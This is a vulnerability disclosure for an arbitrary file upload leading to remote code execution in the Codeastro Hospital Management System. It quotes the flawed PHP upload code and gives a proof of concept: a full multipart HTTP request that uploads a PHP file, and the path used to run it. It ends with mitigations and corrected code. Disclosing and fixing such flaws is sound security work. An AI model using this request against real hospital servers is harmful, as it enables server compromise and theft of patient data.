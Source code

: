 ## Vulnerability Details:
- **Application Name**: Codeastro Hospital Management System (HMS) 
- **Software Link**: [Download Link](https://codeastro.com/hospital-management-system-in-php-with-source-code-adv/)
- **Vendor Homepage**: [Vendor Homepage](https://codeastro.com/)
- **BuG**: Arbitrary Authenticated File Upload Leading to Remote Code Execution (RCE)
- **BUG_Author**: egsec

## About project:
In particular, this Hospital Management System Project in PHP focuses mainly on managing medical-related records within the hospital. To be more precise, the system helps to keep track of medical reports. Also, the system displays all the available employees and patients. In addition, the system allows adding up inventories, and pharmacy records too(codeastro.com). Evidently, this project contains an admin panel with an employee/doctor panel. In an overview of this web application, a doctor can simply log into the system using his/her doctor id and password. He/she can manage patients, pharmacy, and laboratory records. Additionally, the employee/doctor can view and manage inventories too. With it, the system also allows the user to view detailed information and reports of each patient. Besides, the users can update their profiles too.

## Vulnerability Description:
The file upload functionality at the endpoint `/his_doc_update-account.php` in the HMS (Hospital Management System) application allows users to upload files without proper validation. An attacker can exploit this vulnerability to upload a malicious PHP file, potentially enabling remote code execution (RCE) on the server.

## Vulnerable Code Section:
`/his_doc_update-account.php`:
```php
<?php
...
$doc_dpic=$_FILES["doc_dpic"]["name"];
move_uploaded_file($_FILES["doc_dpic"]["tmp_name"],"assets/images/users/".$_FILES["doc_dpic"]["name"]);
...
?>
```
- The code does not check whether the uploaded file is an image or any other type of file (e.g., PHP script).
- Attackers can upload files like malicious.php that might contain executable PHP code.

## Proof of Concept (PoC):
- create malicious php file like `code.php`
- write in the file this payload in order to execute the commands: `<?php phpinfo();?>`
- go to the `/his_doc_update-account.php` for browsing malicous file

vulnerable page:
![pocpage](https://github.com/user-attachments/assets/4a592a91-f782-49d4-9c25-024ac90bedfc)

request:
```python
POST /Hospital-PHP/backend/doc/his_doc_update-account.php HTTP/1.1
Host: localhost
Content-Length: 609
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryASLhlqV2ooCKl78K
User-Agent: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Hospital-PHP/backend/doc/his_doc_update-account.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ii5mujqdm7ch6qa08j70t843ki
Connection: close

------WebKitFormBoundaryASLhlqV2ooCKl78K
Content-Disposition: form-data; name="doc_fname"


------WebKitFormBoundaryASLhlqV2ooCKl78K
Content-Disposition: form-data; name="doc_lname"


------WebKitFormBoundaryASLhlqV2ooCKl78K
Content-Disposition: form-data; name="doc_email"


------WebKitFormBoundaryASLhlqV2ooCKl78K
Content-Disposition: form-data; name="doc_dpic"; filename="code.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>

------WebKitFormBoundaryASLhlqV2ooCKl78K
Content-Disposition: form-data; name="update_profile"


------WebKitFormBoundaryASLhlqV2ooCKl78K--
```

- after uploading, you will get the alert like success (200 OK):

![req2](https://github.com/user-attachments/assets/95a4c55f-5cb2-4c61-91ed-eb0ce94e4456)

- request the malicous file (http://localhost/Hospital-PHP/backend/doc/assets/images/users/code.php):

![image](https://github.com/user-attachments/assets/a7b4f6ee-1a1b-4206-88e9-aaacda00a948)

[PoC video link](https://www.youtube.com/watch?v=roWqcKTSjL0)

## Impact:
This vulnerability allows attackers to upload and execute arbitrary code on the server. The consequences of successful exploitation include:

    Unauthorized remote code execution on the server
    Potential access to sensitive system information or data
    Compromise of the server and other connected systems
    Escalation of privileges, depending on the attacker’s access level

## Mitigation:
1. Restrict Allowed File Types.
   Use the mime_content_type() or pathinfo() functions to check that the uploaded file is an image.
2. Rename Uploaded Files.
   Generate a random name for the uploaded file to avoid potential exploits through file names.
3. Store Files Outside the Web Root.
   Store uploaded files in a directory that is not directly accessible via the browser, e.g., uploads/ outside the public directory.
4. Use a Whitelist-Based MIME Type Validation.
   Verify that the uploaded file has an appropriate MIME type.

##### secure code:
```php
<?php
if (isset($_FILES["doc_dpic"])) {
    $allowed_extensions = ['jpg', 'jpeg', 'png', 'gif'];
    $upload_dir = '/var/www/uploads/'; // Directory outside web root
    $file_extension = pathinfo($_FILES["doc_dpic"]["name"], PATHINFO_EXTENSION);
    $doc_dpic = uniqid() . '.' . $file_extension;

    // Validate file type and extension
    if (!in_array(strtolower($file_extension), $allowed_extensions)) {
        die("Error: Only image files are allowed.");
    }

    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $mime_type = finfo_file($finfo, $_FILES["doc_dpic"]["tmp_name"]);
    finfo_close($finfo);

    $allowed_mime_types = ['image/jpeg', 'image/png', 'image/gif'];
    if (!in_array($mime_type, $allowed_mime_types)) {
        die("Error: Invalid file type.");
    }

    // Move the uploaded file to a safe directory
    if (!move_uploaded_file($_FILES["doc_dpic"]["tmp_name"], $upload_dir . $doc_dpic)) {
        die("Error: File upload failed.");
    }
}
?>
```



